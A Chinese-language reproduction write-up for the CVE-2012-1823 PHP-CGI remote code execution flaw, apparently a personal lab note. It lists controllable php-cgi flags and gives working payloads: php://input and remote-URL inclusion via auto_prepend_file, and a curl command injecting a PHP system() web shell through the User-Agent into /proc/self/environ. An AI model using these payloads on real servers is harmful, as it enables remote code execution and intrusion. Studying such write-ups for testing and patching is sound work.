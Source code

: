 （CVE-2012-1823）PHP-CGI远程代码执行漏洞
========================================

一、漏洞简介
------------

二、漏洞影响
------------

php \< 5.3.12 or php \< 5.4.2

三、复现过程
------------

cgi模式下有如下可控命令行参数可用：

-   `-c` 指定php.ini文件（PHP的配置文件）的位置
-   `-n` 不要加载php.ini文件
-   `-d` 指定配置项
-   `-b` 启动fastcgi进程
-   `-s` 显示文件源码
-   `-T` 执行指定次该文件
-   `-h`和`-?` 显示帮助

​ 那么最简单的利用方式就是`-s`可以直接显示源码![1.png](resource/(CVE-2012-1823)PHP-CGI远程代码执行漏洞/media/rId24.png)-d参数好像就文件包含吧

### payload:

    -d+allow_url_include%3don+-d+auto_append_file%3dphp://input
    需要注意的是 =要用%3d(url编下码) 空格用+号代替或者%20
    -d+allow_url_include%3don+-d+auto_prepend_file%3dphp://input
    上面两种都行只不过一个在页面顶部加载文件一个是页面底部加载文件


     
    auto_prepend_file 在页面顶部加载文件

    auto_append_file  在页面底部加载文件 

![2.png](resource/(CVE-2012-1823)PHP-CGI远程代码执行漏洞/media/rId26.png)远程包含:

payload:

    -d allow_url_include%3don+-d+auto_prepend_file%3dhttp://ip/1.txt

![3.png](resource/(CVE-2012-1823)PHP-CGI远程代码执行漏洞/media/rId27.png)

本地包含:

payload:

    curl -H "USER-AGENT:<?php echo system($_GET["hk"]);?>" url -d auto_prepend_file%3d/proc/self/environ+-n

这里介绍下/proc/self/environ在文件包含中的作用

    如果服务器已过响应时间，还可以通过LFI重新利用，包括存储在User_Agent的/proc/self/environ文件，我们将把我们的PHP代码放置其中用于执行CMD命令 

我们可以把php代码放进user-agent里然后进行本地包含

但是我这里用bp修改user-agent不知道为什么不行 (一直显示超时)

![4.png](resource/(CVE-2012-1823)PHP-CGI远程代码执行漏洞/media/rId28.png)

不过我们还是可以进行本地包含的 使用curl来完成

payload:

    curl -H "USER-AGENT:" https://www.0-sec.org:8080/index.php?-d+auto_prepend_file%3d/proc/self/environ+-n -o xxx.txt

![5.png](resource/(CVE-2012-1823)PHP-CGI远程代码执行漏洞/media/rId29.png)

当然也可以使用之前提到的反弹shell
